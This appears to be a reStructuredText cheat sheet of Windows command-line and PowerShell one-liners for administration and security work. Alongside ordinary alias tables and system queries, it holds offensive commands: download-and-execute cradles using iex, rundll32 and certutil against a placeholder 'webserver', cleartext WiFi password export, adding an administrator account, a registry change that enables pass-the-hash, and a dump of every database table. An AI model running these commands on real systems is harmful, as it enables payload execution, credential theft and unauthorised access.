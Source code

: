 One-liners commands
===================

Here are some useful short commands for Windows systems that may be useful.


Basic PowerShell commands
-------------------------

* ``sls`` (``Select-String``): look for a pattern.

  Example:

  .. code-block:: sh

      # Search my-needle in the input
      sls my-needle

      # Search my-needle in files ending with .txt
      sls -Path *.txt -Pattern my-needle

  Documentation:

  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-6
  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_regular_expressions?view=powershell-6

* ``gcm`` (``Get-Command``): List cmdlets (PowerShell commands) matching a pattern.

  Example:

  .. code-block:: sh

      # List commands using "WMI" in their names
      gcm -noun *WMI*

PowerShell also provides commands to browse the filesystem.
Here is a correspondence table between PowerShell commands and commands from other systems, that are also available in PowerShell as aliases:

+-------------------------+--------------------------------------------------+----------------------------------------------+
|                         |                     Aliases                      |                                              |
|      cmdlet             +---------+-------------------+--------------------+ Description                                  |
|                         |   PS    | ``cmd.exe``       |   UNIX shell       |                                              |
+=========================+=========+===================+====================+==============================================+
| ``Get-Location``        | ``gl``  | ``pwd``           | ``pwd``            | Get the current node.                        |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Location``        | ``sl``  | ``cd``, ``chdir`` | ``cd``, ``chdir``  | Change the current node.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ChildItem``       | ``gci`` | ``dir``           | ``ls``             | List the objects stored at the current node. |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``New-Item``            | ``ni``  | ``md``, ``mkdir`` | ``mkdir``          | Create a directory.                          |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Item``            | ``gi``  |                   |                    | Return the properties of the current item.   |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Item``            | ``si``  |                   |                    | Define the content of an item.               |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-Item``           | ``cpi`` | ``copy``          | ``cp``             | Copy an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-Item``           | ``mi``  | ``move``          | ``mv``             | Move an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-Item``         | ``rni`` | ``rn``            | ``ren``            | Rename an object.                            |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Remove-Item``         | ``ri``  | ``del``, ``rd``,  | ``rm``, ``rmdir``  | Remove an object.                            |
|                         |         | ``erase``         |                    |                                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Content``         | ``gc``  | ``type``          | ``cat``            | Get the content of an object.                |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Content``         | ``sc``  |                   |                    | Define the content of an object.             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ItemProperty``    | ``gp``  |                   |                    | Return a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-ItemProperty``   | ``cpp`` |                   |                    | Copy a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-ItemProperty``   | ``mp``  |                   |                    | Move a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-ItemProperty`` | ``rnp`` |                   |                    | Rename a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Compare-Object``      |         | ``compare``       | ``diff``           | Compare several objects.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Write-Output``        |         | ``write``         | ``echo``           | Print something to the standard output.      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Invoke-WebRequest``   | ``iwr`` |                   | ``curl``, ``wget`` | Perform a HTTP request.                      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Help``            |         | ``help``          | ``man``            | Get the help associated with a cmdlet.       |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+


Download and run
----------------

Download and run a script

* PowerShell (``iex`` is an alias to ``Invoke-Expression``)::

    powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

* JavaScript through Rundll32 (used by Win32/Poweliks malware)::

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

* Using ``certutil``::

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe

Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/

Downloading files with PowerShell::

    $content = (New-Object Net.WebClient).DownloadString("http://webserver/file.txt")

    # Save to a file
    Invoke-WebRequest -Uri http://webserver/file.txt -OutFile file.txt -UseBasicParsing

    # With BITS (Background Intelligent Transfer Service) (ipmo = Import-Module)
    ipmo BitsTransfer;Start-BitsTransfer -Source "http://webserver/file.txt" -Destination C:\Windows\Temp\

Run a PowerShell script::

    %windir%\System32\WindowsPowerShell\v1.0\powershell.exe -Noninteractive -ExecutionPolicy Bypass –Noprofile -file MyScript.ps1


Proxy settings
--------------

Get the HTTP proxy which is currently configured::

    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable
    netsh winhttp dump

Add a HTTP proxy::

    netsh winhttp set proxy 127.0.0.1:3128


WiFi profiles
-------------

List available WiFi profiles::

    netsh wlan show profiles

Export WiFi profiles (username and password) to ``%APPDATA%\<profile>.xml``::

    cmd.exe /c netsh wlan export profile key=clear folder="%APPDATA%"

Source: https://securelist.com/shedding-skin-turlas-fresh-faces/88069/

In PowerShell, without writing any file::

    $results = (netsh wlan show profiles) |
        Select-String '\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{(netsh wlan show profile name=$name key=clear)} |
        Select-String 'Key Content\W+\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}

    # Display the results or record them in files
    $results
    $results | Format-Table -Wrap
    $results | Format-Table -AutoSize
    $results | Out-GridView
    $results | Export-Csv -Path .\wifi.csv -NoTypeInformation -Encoding ASCII
    $results | Out-File -FilePath .\wifi.txt -Encoding ASCII

Sources:

* https://jocha.se/blog/tech/display-all-saved-wifi-passwords
* https://www.tenforums.com/tutorials/27997-see-wireless-network-security-key-password-windows-10-a.html
* https://community.idera.com/database-tools/powershell/ask_the_experts/f/learn_powershell_from_don_jones-24/19610/convert-one-liner-to-more-readable-code


User and group management
-------------------------

Some commands to list and manage users and groups

.. code-block:: sh

    # Get information on the current user
    whoami
    whoami /groups
    whoami /priv
    whoami /all

    # Local users and groups manager
    lusrmgr.msc

    # net command on local accounts
    net user
    net localgroup

    # net command on Active Directory accounts
    net user /domain
    net group

    # query command
    query user

    # Get information about the current sessions on a server
    qwinsta
    query session

    # PowerShell, with MS Exchange cmdlet
    # Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010
    Get-User | Export-CSV C:\Temp\AllUsers.csv -NoTypeInfo

    # WMI (PowerShell)
    Get-WmiObject Win32_UserAccount
    Get-CimInstance -ClassName Win32_UserAccount
    Get-CimInstance -ClassName Win32_Group

    # Add an adminitrator user
    net user newuser password /add
    net localgroup Administrators newuser /add

Spawn an elevated prompt when UAC is enabled (User Account Control)::

    Start-Process -Verb RunAs PowerShell
    saps -verb runas powershell

In order to login as administrator to a remote machine without using the built-in administrator (RID 500), a registry key needs to be set.
This has been described in many blog posts:

* https://support.microsoft.com/en-us/help/942817/how-to-change-the-remote-uac-localaccounttokenfilterpolicy-registry-se
* https://blogs.msdn.microsoft.com/wmi/2009/07/24/powershell-remoting-between-two-workgroup-machines/
* https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/

::

    cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
    PowerShell Set-ItemProperty –Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System –Name LocalAccountTokenFilterPolicy –Value 1 –Type DWord


Enumerate live objects
----------------------

Enumerate all processes::

    tasklist /v
    query process *
    Get-Process
    # "gps" and "ps" are aliases of Get-Process

Enumerate all services::

    Get-Service | Export-CSV C:\Temp\AllServices.csv -NoTypeInfo
    gsv | epcsv C:\Temp\AllServices.csv -NoTypeInfo


Group Policy
------------

Edit Local Group Policy::

    gpedit.msc
    secpol.msc

Export the Local Group Policy::

    secedit /export /cfg system_config.cfg

    # With at least Windows Vista or Windows Server 2008
    gpresult /H GPReport.html

    # Display RSoP summary data (Resultant Set of Policies)
    gpresult /R

    # RSoP GUI
    RSOP.msc

Work on Group Policy Objects (GPO):

.. code-block:: sh

    # Launch the Group Policy Management Console
    gpmc.msc

    # Apply the GPO
    gpupdate /force

The Remote Server Administration Tools (RSAT) provides Group Policy PowerShell Cmdlets (https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/ee461027%28v=technet.10%29):

.. code-block:: sh

    Get-WindowsCapability -Online | ? Name -like 'Rsat.GroupPolicy.Management.Tools*'
    Get-GPOReport -All -ReportType Html -Path GpoReport.html

Logon scripts are located in folder ``%SystemRoot%\SYSVOL\sysvol\{domain DNS name}\Policies\{GUID of the GPO}\User\Scripts\Logon`` (on Domain controllers).
They can be implemented in VBScript (``.vbs`` extension) or PowerShell (``.ps1`` extension).
In GPMC, they are linked to a GPO using either:

* Computer Configuration -> Policies -> Windows Settings -> Scripts (Startup / Shutdown)
* User Configuration -> Policies -> Windows Settings -> Scripts (Logon/Logoff)

A third way of running scripts on a system consists in using Immediate Scheduled Tasks:

* Computer Configuration -> Preferences -> Control Panel Settings -> Scheduled Tasks


Software information
--------------------

In order to list the upgrades that have been applied, using DISM (Deployment Image Servicing and Management Tool)::

    dism /online /get-packages

In order to check for an applied update, with its KB number:

.. code-block:: sh

    dism /online /get-packages | findstr KB99999

    # systeminfo.exe enumerates the "hotfixes" too
    systeminfo.exe | findstr KB99999

    # WMI also provides such an information in
    # System.Management.ManagementObject#root\CIMV2\Win32_QuickFixEngineering
    wmic qfe get hotfixid | find "KB99999"
    wmic qfe | find "KB99999"

    # From PowerShell
    Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}

    # https://docs.microsoft.com/en-gb/powershell/module/Microsoft.PowerShell.Management/Get-HotFix?view=powershell-5.1
    Get-HotFix -id KB99999

The software may be signed using a certificate in a certificate store.

.. code-block:: sh

    # Manage user certificates
    certmgr.msc

    # Manage local machine certificates
    certlm.msc


Boot configuration
------------------

::

    msconfig

    bcdedit /enum all


Installed software
------------------

.. code-block:: sh

    wmic product get "name,version" /format:csv > applications.csv


Firewall
--------

::

    wf.msc

    Get-NetFirewallProfile
    Show-NetFirewallRule


TCP port forwarding with netsh
------------------------------

::

    netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.0.2.42 connectport=80 connectaddress=10.13.37.1


Alternate Data Streams
----------------------

Get files with ``Zone.Identifier`` alternate data stream (ADS)::

    Get-ChildItem -Recurse | Get-Item -Stream Zone.Identifier -ErrorAction SilentlyContinue | Select-Object FileName

Read an ADS::

    Get-Content -Stream Zone.Identifier .\my-application.exe

Remove an ADS::

    Remove-Item .\my-application.exe -Stream Zone.Identifier

When downloading a file from the Internet, ``dir`` shows a filename with suffix ``:Zone.Identifier:$DATA`` and with 26 bytes (each lines are ended by ``"\r\n"``::

    [ZoneTransfer]
    ZoneId=3

The Zone identifier is 0 for the local machine, 1 for the local intranet, 2 for trusted sites, 3 for the Internet or 4 for restricted sites.

The ADS ``Zone.Identifier`` may contain other fields such as ``ReferrerUrl=...``.

The empty ADS matches the usual content of a file. This means that the content is both accessible through ``filepath`` and ``filepath::$DATA``.


CSV and table viewer
--------------------

Display a simple CSV file in a simple GUI, from a PowerShell prompt::

    Import-Csv -Path file.csv | Out-GridView
    ipcsv -Path file.csv | ogv

In order to produce a CSV from a PowerShell command::

    ... | Sort-Object -Property Timestamp | Export-Csv file.csv -notypeinformation
    ... | sort -Property Timestamp | epcsv file.csv -notypeinformation

For a table in the CLI::

    ... | Format-Table
    ... | ft

In order to show a table as a list::

    ... | Format-List
    ... | fl


MSSQL client
------------

In order to connect to a MSSQL server from a PowerShell CLI (cf. https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection?view=netframework-4.7.2):

.. code-block:: sh

    $ConnectionString = "Server=MSSQL-SRV\MY-INSTANCE;Database=mydb;User ID=sa;Password=sa;"
    $SqlConnection = New-Object System.Data.SqlClient.SqlConnection($ConnectionString)
    $SqlConnection.Open()
    $SqlConnection.State
    # Result: "Open"

To run a trivial SQL query:

.. code-block:: sh

    # The verbose way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand
    $SqlCmd.CommandText = "SELECT 42"
    $SqlCmd.Connection = $SqlConnection
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter
    $SqlAdapter.SelectCommand = $SqlCmd
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

    # The more-compact way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT 42", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

In order to find out which tables the logged user has access, here are some queries:

* ``SELECT * FROM sys.databases``
* ``SELECT * FROM sys.tables``

The following commands export the first rows of every table to files, once a ``$SqlConnection`` has been created:

.. code-block:: sh

    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT * FROM sys.tables", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $AllTables = $DataSet.Tables[0] | Sort-Object -property name

    $AllTables | ForEach-Object {
        $tblName = $_.name
        $csvName = "dump_top_" + $tblName + ".csv"
        echo "Exporting data to " $csvName
        $SqlCmd = New-Object System.Data.SqlClient.SqlCommand(("SELECT TOP 10000 * FROM " + $tblName), $SqlConnection)
        $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
        $DataSet = New-Object System.Data.DataSet
        $SqlAdapter.Fill($DataSet)
        $DataSet.Tables[0] | Export-Csv $csvName -notypeinformation
    }

On a SQL Server, it is also possible to create a virtual drive (cf. https://docs.microsoft.com/en-us/sql/powershell/navigate-sql-server-powershell-paths?view=sql-server-2017):

.. code-block:: sh

    New-PSDrive -Name MYDB -Root SQLSERVER:\SQL\localhost\DEFAULT\Databases\mydb
    Set-Location MYDB:\Tables\Users
